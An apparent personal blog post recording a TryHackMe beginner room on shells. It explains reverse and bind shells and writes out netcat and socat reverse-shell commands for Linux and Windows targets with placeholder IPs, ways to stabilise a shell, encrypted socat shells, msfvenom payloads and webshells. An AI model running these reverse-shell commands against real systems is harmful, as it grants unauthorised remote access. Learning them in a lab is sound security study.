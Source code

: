 ```yaml
---
layout: post
title: "30 Days of THM: Day 7"
date: 2024-06-18 10:00:00 +0000
categories: [post, hacking]
tags: [post, hacking]
---
```


30 Days of TryHackMe: Day 7 — What the Shell?

Welcome to 30 Days of TryHackMe, where I try to build a cybersecurity learning streak through the online hacking platform TryHackMe. Today we are continuing where we left off on the Complete Beginner track. The next section is Shell and Privilege Escalation. Today, I am going to be doing a room at a time, instead of trying to complete an entire section, because that actually did throw me off track for this streak.


A shell is a command line environment. In Linux, it is Bash, which stands four Bourne-Again Shell. In Windows, it is cmd.exe or PowerShell. When attacking a vulnerable application, if we can force commands to be run on the target, we can gain access by getting a shell on the target. There are two types of these shells, reverse shells and bind shells. Reverse shells are when we send command line access back to us, and bind shells are when we connect to an open port on the target.

There are many ways of obtaining a shell on the target. Netcat is a network testing tool that is the traditional method, because it is installed by default on Linux. Socat is a more stable and more powerful version of netcat, but it is rarely installed by default. And as covered in the previous section, metasploit and msfvenon can also be used.

Between reverse shells and bind shells, reverse shells are easier to execute and in CTF environments, will mostly be used. The syntax for a reverse shell would be something like:
Attacking box: nc -nlvp 4444

This is the command you would run. Nc is for netcat, -n restricts to just numeric IPs, -l is so that it is listening for an incoming connection, -v is verbose, and -p is to specify the port. In the case above, 4444 would be the port number.

On the target box, the syntax would be: nc <IP Address> 4444 -e /bin/bash

This would set up a non-interactive shell. A non-interactive is pretty unstable and lacks a lot anything that requires interactivity.

The first step after getting a non-interactive shell would be to try to improve it, perhaps make it interactive. There are severals way to do this. The first way is to use Python. First thing to do is use this python command: python -c ‘import pty;pty.spawn(“/bin/bash”)’ Then you type export TERM=xterm. This gives access to commands like clear. And then you background the shell using ctrl+z, then in your own terminal you type in stty raw -echo; fg.

The second method is to use rlwrap before your nc command, which will give access to history, tab complete, and arrow keys. This is useful against windows targets.

The third method is to use the netcat to try to setup a socat.

The syntax for socat is harder than netcat. For a basic reverse shell, you would type in socat TCP-L:<port> -. The syntax on the target depends on the operating system of the target. On Windows, it would be socat TCP:<LOCAL IP>:<LOCAL PORT> EXEC:powershell.exe,pipes. On Linux, it would be socat TCP:<LOCAL IP>:<LOCAL PORT> EXEC:”bash -li”.

Socat is capable of creating an encrypted shell, which is very useful if you don’t want anyone knowing what you’re doing. If you want to do this, you first need to use opennsl to create a certificate.

Creating payloads can be done through the msfvenom command, which was covered in the previous section. There are two kinds of payloads: staged and stageless. Staged payloads are sent in two parts. Stageless is a self contained piece of code. Staged are less common, and stageless are usually easier to execute, but stageless is also easier to detect and remove.

In the metasploit framework, the typical module for catching shells is multi/handler, and this is what you would use if you want to start a meterpreter shell.

There are also webshells, which are opportunities for code to be uploaded to a web application that will start a shell.

And then this room gives an opportunity to practice with all the different techniques gone over, on both a Linux and a Windows machine.


